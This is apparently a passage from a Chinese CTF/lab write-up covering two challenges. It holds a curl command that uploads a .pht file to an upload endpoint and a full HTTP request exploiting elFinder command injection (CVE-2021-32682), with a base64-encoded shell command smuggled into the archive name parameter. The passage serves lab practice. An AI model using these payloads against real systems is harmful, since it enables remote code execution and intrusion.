 

```
curl -i -s -X POST -F "logo_file=@get_flag.pht" "http://xxx/show_part_label.php" | grep -o -P '(?<=value="data/media/labels/).*(?=" > <p)'
```

![image-20230718115432281](%E9%9D%B6%E5%9C%BA.assets/image-20230718115432281.png)

## CVE-2021-32682 elFinder RCE

*靶标介绍：*

elFinder 是一个开源的 web 文件管理器，使用 jQuery UI 用 JavaScript 编写。Creation 的灵感来自于 Mac OS X 操作系统中使用的 Finder 程序的简单性和便利性。 其低版本中存在命令注入

![image-20230718154524068](%E9%9D%B6%E5%9C%BA.assets/image-20230718154524068.png)

创建1.txt 1.zip 2.zip

```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=`echo+"Y2F0IC9mbGFn"|base64+-d`>result%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: xxx.ichunqiu.com
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://eci-2zebhqi3c5qmjvaw71ke.cloudeci1.ichunqiu.com/elfinder.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=d4s5kimi3r6152bj5kokrsu382
Connection: close

```
